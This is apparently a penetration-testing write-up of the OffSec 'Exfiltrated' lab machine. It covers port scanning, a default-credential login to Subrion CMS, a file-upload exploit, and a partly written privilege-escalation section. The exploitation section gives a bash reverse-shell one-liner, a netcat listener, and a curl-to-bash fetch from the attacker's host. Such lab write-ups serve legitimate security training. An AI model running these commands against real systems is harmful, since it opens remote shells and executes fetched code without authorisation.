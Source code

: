 ```yaml
---
description: 11/22/2021
---
```


# Exfiltrated (Easy)

## Information Gathering

Scanned all TCP ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
All 1000 scanned ports on exfiltrated.offsec (192.168.90.163) are in ignored states.
```

Notes:

* 80/HTTP - <mark style="color:yellow;">added exfiltrated.offsec to /etc/hosts</mark>
  * CMS- Subrion -- Can we enumerate the version? -- Yes, <mark style="color:yellow;">v4.2.1</mark>
  * Apache 2.4.41
* Perform quick win attempt with searchsploit on both services above

## Enumeration

### Port 80 - HTTP (Apache) -- exfiltrated.offsec

Visual Inspection:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Wappalyzer:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Searchsploit results of Subrion CMS:

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

Enumerated Subrion Version:

* Found via selecting the "Go to admin dashboard" button on the main site

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Version has been enumerated <mark style="color:yellow;">Subrion v4.2.1</mark>
* We have 4 exploits that are targeted towards this version

### Subrion Default Credentials

A simple Google search for Subrion Default Creds gives us this first site with lucrative and guessable information

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">Attempted admin/admin login and it worked!</mark>

### Subrion Admin Panel

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### 49876.py (Arbitrary File Upload)

<figure><img src="../../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

* Viewed the python exploit in gedit to ensure I was using the proper syntax!
* I also had to copy/paste the explicit directory from the URL bar to the terminal for it to get the correct path (side note)
* However, this shell was really buggy so I ended up transferring a bash reverse shell to upgrade my shell

### Upgrading Web Shell -> Reverse Shell

Create bash reverse shell (rev\_shell):

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener:

```
nc -lnvp 1337
```

Start HTTP server on Kali:

```
python3 -m http.server 80
```

Transfer w/ curl:

```
curl 192.168.49.90/rev_shell | bash
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Terminator Command Window</p></figcaption></figure>

Upgrade Shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* Time to priv esc!

## Privilege Escalation

### Local enumeration

<mark style="color:yellow;">Cronjobs</mark>

```
cat /etc/crontab
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">/opt/image-exif.sh</mark> looks interesting
* I tried to replace the file and delete it with no luck

{% embed url="https://grumpygeekwrites.wordpress.com/2021/09/07/offensive-security-pg-practice-exfiltrated-walk-through-tutorial-writeup/" %}

### PrivEsc vector

## Proofs
